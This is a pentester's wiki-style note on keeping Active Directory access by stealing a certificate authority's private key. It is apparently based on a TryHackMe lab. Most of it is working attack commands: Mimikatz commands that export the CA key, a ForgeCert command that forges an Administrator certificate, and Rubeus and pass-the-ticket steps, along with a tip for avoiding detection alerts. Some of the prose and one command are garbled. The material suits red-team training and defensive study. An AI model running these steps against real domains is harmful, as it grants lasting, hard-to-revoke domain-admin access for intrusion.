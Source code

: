 # Active Directory Persistence With Certificates

We the use of [[AD-Certificate-Exploitation]], leveraging certifications to become Domain Admins can be viable method of persistemces as all that is requiered is a valid certificate used for client authentication. The certificate can be used to request a TGT. The certificate has to be revoked or expire for a failure state to occur, therefore potential persistent access by default for around 5 years. 

## Certificate Authority CA 

Steal the private key of the root CA's certificate to generate our own certificates. Blue can not revoke them as they were never issue by the CA and would require a CA rotation - all issued certificates would have to be revoked and new one reinstated! With [[Mimikatz-Cheatsheet]] or [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

The private key of the CA is stored on the CA server, if not protoect through Hardware Security Module (HSM) - a hardware-based protection method - it is protected by the machine Data Protection API (DPAPI).

```powershell
# View CA Certificate on the DC 
# Some Certificate do not allow exporting the private key  
crypto::certificates /systemstore:local_machine
# Therefore use Mimikatz to generate a new certificate 
privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
# Exported certificates will be stored in both PFX and DER format to disk
```
Transfer both .pfx and .der certificate files to non domain machine for safe keeping and safer certificate generation.

Use SpectreOps's [ForgeCert](https://github.com/GhostPack/ForgeCert) to forge a Client Authentication certificate.
```powershell
# --SubjectAltName is User principle name UPN 
ForgeCert.exe --CaCertPath $exportedCAcertificate --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath $NewCertName.pfx --NewCertPassword Password123
```
Then use [[Rubeus-Cheatsheet]] to request a TGT using the certificate to verify that the certificate is trusted:
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```

Then [[Mimikatz-Cheatsheet]] to [[Pass-The-Ticket]]
```powershell
kerberos::ptt $ticket.kirbi
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)